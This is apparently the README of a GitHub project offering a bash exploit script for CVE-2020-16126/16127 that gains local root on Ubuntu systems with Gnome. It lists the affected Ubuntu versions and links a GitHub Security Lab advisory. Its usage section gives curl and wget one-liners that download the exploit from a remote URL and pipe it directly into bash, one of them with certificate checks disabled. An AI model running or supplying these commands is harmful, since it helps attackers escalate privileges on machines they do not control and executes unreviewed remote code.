 # Ubuntu-Gnome-privilege-escalation
A bash script exploit of [CVE-2020-16126/CVE-2020-16127] to achieve privilege escalation.

一个可以方便实现Ubuntu本地提权的bash脚本（利用CVE-2020-16126/CVE-2020-16127漏洞），要求处于Gnome环境。

## Version
Ubuntu 20.04.1\20.10\18.04\16.04 LTS and so on

## usage
`curl https://raw.githubusercontent.com/zev3n/Ubuntu-Gnome-privilege-escalation/main/CVE-2020-1612%5B6_7%5D_exploit.sh | bash`

or

`wget -q -O - --no-check-certificate https://raw.githubusercontent.com/zev3n/Ubuntu-Gnome-privilege-escalation/main/CVE-2020-1612%5B6_7%5D_exploit.sh | bash`


## reference
https://securitylab.github.com/advisories/GHSL-2020-187-accountsservice-drop-privs-DOS
